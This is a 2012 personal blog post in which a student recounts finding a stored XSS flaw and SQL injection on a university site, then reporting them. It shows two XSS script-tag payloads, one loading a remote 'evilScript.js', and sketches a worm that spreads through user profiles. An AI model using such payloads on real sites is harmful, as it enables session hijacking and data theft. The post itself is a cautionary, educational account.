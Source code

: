 +++
title = "How I hacked a site"
date = 2012-08-30T00:58:00Z
updated = 2013-08-23T02:40:42Z
tags = ["Programming", "websites", "xss", "Hacking", "sql injection"]
blogimport = true 
author = "Ivan du Toit"
authorLink = "https://plus.google.com/109733145121386015159"
+++

I did no harm so don't start booing me before you read the whole story, I just went far enough to prove that in fact there was an exploitable security issue -  and I must admit also showed off to one of my friends by greeting him by name once he logged into the site. I also reported the vulnerabilities to the appropriate people.<br /><br /><a name='more'></a><br /><h3>How this came about.</h3><div><br /></div>Exam time is a weird time for students, they start experiencing the taste of the holidays while actually performing under the academic pressure of having to pass.<br /><br />In the middle of my exams I was having problems sleeping due to the stress  of the exams. During one of these periods of stress induced insomnia I decided that I would rather be doing something than just lying in bed. So I grabbed my netbook and started to surf the net, at some stage I ended up on the computer science site to check if there was any news related to my course. So there I was 2:30 AM browsing around the site when I had this crazy idea: Is this site secure? I don't know why I had that thought but there it was and since I wasn't sleeping anyway, so I decided to give the site a test.<br /><br />First I had a crack at the user login form but that was hardened against my primitive attacks, but is this true for the whole site or is there some area that the other students before me have not yet checked? So I tried a few of the other forms on the site for <a href="http://en.wikipedia.org/wiki/SQL_injection">SQL injection</a>&nbsp;vulnerabilities&nbsp;but found none but that is to be expected. But what I did find was a <a href="http://en.wikipedia.org/wiki/Cross-site_scripting">XSS</a> vulnerability in the member details form. I could inject a script tag that was not escaped into my surname.  But you might say that is not a big deal is it? It seems so innocent to add<br /><br /><div><pre nbsp="nbsp" style="background-image: URL(http://2.bp.blogspot.com/_z5ltvMQPaa8/SjJXr_U2YBI/AAAAAAAAAAM/46OqEP32CJ8/s320/codebg.gif); background: #f0f0f0; border: 1px dashed #CCCCCC; color: black; font-family: arial; font-size: 12px; height: auto; line-height: 20px; overflow: auto; padding: 0px; text-align: left; width: 99%;"><code style="color: black; word-wrap: normal;">1: &nbsp;&lt;script&gt;alert("Hello World");&lt;/script&gt; &nbsp;</code></pre></div><div></div><br />to&nbsp;my surname. But I could also change that to<br /><br /><div><div><pre nbsp="nbsp" style="background-image: URL(http://2.bp.blogspot.com/_z5ltvMQPaa8/SjJXr_U2YBI/AAAAAAAAAAM/46OqEP32CJ8/s320/codebg.gif); background: #f0f0f0; border: 1px dashed #CCCCCC; color: black; font-family: arial; font-size: 12px; height: auto; line-height: 20px; overflow: auto; padding: 0px; text-align: left; width: 99%;"><code style="color: black; word-wrap: normal;">1: &nbsp;&lt;script src="example.com/evilScript.js"&gt;&lt;/script&gt; &nbsp;</code></pre></div><div></div></div><br /><br />Which does not look half as cute does it? After some brain storming I thought of ways to infect other users by updating there details in the back ground to include my script in there surname! This infection happens whenever my surname was rendered by the browser! This boys and girls is a worm&nbsp;similar&nbsp;to the<a href="http://en.wikipedia.org/wiki/Samy_(computer_worm)"> myspace worm</a>! So it has gone viral now what?<br /><br /><br />No it can not start the zombie&nbsp;apocalypse&nbsp;(I&nbsp;<strike>think&nbsp;</strike>hope). But it could do all of the following: <br /><ul><li><a href="http://en.wikipedia.org/wiki/Session_hijacking">Session Hijacking</a> </li><li>Steal passwords&nbsp;</li><li>Download other students code for assignments&nbsp;</li><li>Steal other students and lecturer's email address and other hidden personal information.</li><li>Post content as a lecturer or student.</li></ul><div>Pretty scary stuff for suck a innocent vulnerability!</div><div>I also found a SQL injection vulnerability but that to me is not very special because it is very common, yet so easy to prevent that I am just astounded that it exists.<br /><br /><h3>Moral of the story</h3><div><br /></div>So yeah that is how I hacked a site.  I post about the experience both as a warning to other developers and to myself.<br /><br /><ul><li>Innocent looking vulnerabilities can have very grave consequences.</li><li>Your security is only as strong as your weakest point.</li></ul><br /><br />If this post makes just 1 site more secure I will be very happy. So go code but be safe.</div>
